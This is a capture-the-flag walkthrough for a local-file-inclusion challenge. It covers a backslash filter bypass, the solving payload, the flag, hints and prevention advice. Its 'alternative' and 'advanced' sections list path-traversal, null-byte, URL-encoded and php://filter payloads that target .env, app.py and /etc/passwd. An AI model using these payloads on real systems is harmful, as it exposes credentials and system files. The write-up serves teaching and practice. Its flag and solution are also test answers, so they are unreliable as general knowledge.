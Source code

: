 # Flame Walkthrough

## Challenge Overview
**Difficulty**: Hard  
**Vulnerability**: Local File Inclusion (LFI)  
**Flag**: nhc{f1l3_p4th_tr4v3rs3d_w1th_fl4m3}

## Story Context
Hattori enters the Echo Chamber, where flames reveal paths to hidden chambers through careful traversal.

## Solution Steps

### Step 1: Access the Challenge
1. Navigate to `/challenge/flame`
2. Observe the sample echo link and chamber description

### Step 2: Understand the Vulnerability
The backend processes:
```python
path = f'uploads/{scroll}'.replace('\\', '/')
```

### Step 3: Test Basic LFI
1. Try the sample: `/challenge/flame/view?scroll=sample.txt`
2. Should display: "This is a sample relic from the vault." and when you try lfi using basic ../ method it should show like echo error something like that

### Step 4: Bypass Path Restrictions
1. Blocked: `/` (forward slash)
2. Allowed: `\` (backslash), which gets converted to `/`
3. Use `..` for directory traversal

### Step 5: Access Hidden Directory
1. Traverse to parent directory: `..\hidden\final_fragment.txt`
2. Full payload: `/challenge/flame/view?scroll=..\hidden\final_fragment.txt`
3. The backslashes become forward slashes, creating: `uploads/../hidden/final_fragment.txt`

### Step 6: Extract the Flag
The response should contain: `nhc{f1l3_p4th_tr4v3rs3d_w1th_fl4m3}`

## Hints

### Hint 1
> The chamber echoes files from the uploads directory. But what if you could reach beyond that?

### Hint 2
> The system blocks forward slashes but allows backslashes. How does it handle the conversion?

### Hint 3
> Directory traversal uses `..` to move up directories. Combine this with the path conversion for access.

## Educational Notes

### What You Learned
- **Local File Inclusion**: Including files from the server filesystem
- **Path Traversal**: Using `..` to access parent directories
- **Input Sanitization**: Bypassing filters through character conversion
- **Directory Structure**: Understanding web application file organization

### Real-World Impact
- Sensitive file disclosure
- Source code exposure
- Configuration file access
- Log file reading

### Prevention
- Input validation and sanitization
- Path canonicalization
- Whitelist allowed files
- Use indirect file access
- Proper permission controls

## Alternative Payloads

### Basic Traversal
```
..\hidden\final_fragment.txt
```

### Source Code Disclosure
```
..\..\..\app.py
```

### Configuration Access
```
..\..\..\.env
```

### Log File Reading
```
..\..\..\logs\access.log
```
the above paylods wont work as for added security purpose the /flame/scroll?view= only allow hidden and secret in it other payloads wont work 
## Testing Techniques

### Manual Testing
1. Start with known files
2. Test traversal step by step
3. Verify path conversion

### Python Simulation
```python
def test_lfi(scroll):
    path = f'uploads/{scroll}'.replace('\\', '/')
    print(f"Original: uploads/{scroll}")
    print(f"Converted: {path}")
    return path

# Test the payload
test_lfi('..\\hidden\\final_fragment.txt')
```

## Common Mistakes
- Using forward slashes instead of backslashes
- Wrong number of `..` for traversal
- Incorrect file path or name
- Not understanding the replace operation

## Path Conversion Logic

### Input Processing
```
Input: ..\hidden\final_fragment.txt
Replace \ with /: ../hidden/final_fragment.txt
Full path: uploads/../hidden/final_fragment.txt
Resolved: hidden/final_fragment.txt
```

### Security Bypass
- Filter blocks `/` but allows `\`
- Application converts `\` to `/`
- Results in valid path traversal

## Advanced Techniques

### Null Byte Injection
```
..\..\..\etc\passwd%00.jpg
```

### Encoding Bypass
```
..%2f..%2f..%2fetc%2fpasswd
```

### Wrapper Exploitation
```
php://filter/convert.base64-encode/resource=../../../etc/passwd
```

## Next Steps
Submit the flag to complete all challenges and access the finale.
